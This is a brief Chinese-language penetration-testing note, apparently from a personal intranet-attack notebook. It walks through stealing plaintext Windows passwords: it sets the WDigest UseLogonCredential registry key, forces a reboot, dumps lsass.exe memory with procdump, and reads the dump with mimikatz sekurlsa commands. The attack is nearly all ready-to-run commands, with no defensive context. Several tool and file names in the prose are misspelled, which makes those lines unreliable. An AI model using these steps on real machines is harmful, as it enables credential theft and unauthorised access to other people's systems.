 ![image-20210830235012255](内网渗透/image-20210830235012255.png)



### 修改注册表获取lsass.exe进程中的密码

lsass.exe 存储明文密码

minikatz抓取失败

需要使用prodump 使用

minikatx.exe 'lesse.dmp'

```sh 修改注册表
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
#2016server进行修改命令
修改后 shutdonw /r /t 0
#关机重启
上传procdump脚本
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
最终下载生成的lsass.dmp文件
使用mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
进行获取明文密码


```
